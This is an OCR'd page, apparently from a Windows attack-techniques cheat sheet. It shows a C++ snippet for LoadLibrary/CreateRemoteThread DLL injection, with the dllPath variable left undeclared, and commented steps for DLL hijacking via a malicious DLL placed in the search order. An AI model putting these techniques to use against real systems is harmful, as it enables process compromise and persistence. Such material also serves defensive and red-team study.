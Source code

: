 
## DLL Injection Techniques

### LoadLibrary Method
```cpp
// Basic LoadLibrary injection example
#include <windows.h>
#include <stdio.h>

int main() {
    DWORD targetProcessId = 1234; // Target PID
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetProcessId);
    
    // Allocate memory in target process
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    
    // Write DLL path
    WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    
    // Get LoadLibrary address
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    
    // Create remote thread
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    
    return 0;
}
```

### DLL Hijacking
```cmd
# Step 1: Check Safe DLL Search Mode status
# Registry path: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager
# SafeDllSearchMode = 1 (enabled) or 0 (disabled)

# Step 2: Identify DLL search order
# With Safe DLL Search Mode enabled:
# 1. Application directory
# 2. System directory  
# 3. 16-bit system directory
# 4. Windows directory
# 5. Current directory
# 6. PATH environment variable directories

# Step 3: Find missing DLLs in application directory
# Use Process Monitor to identify missing DLLs

# Step 4: Create malicious DLL with same name
# Place in higher priority search location
```

---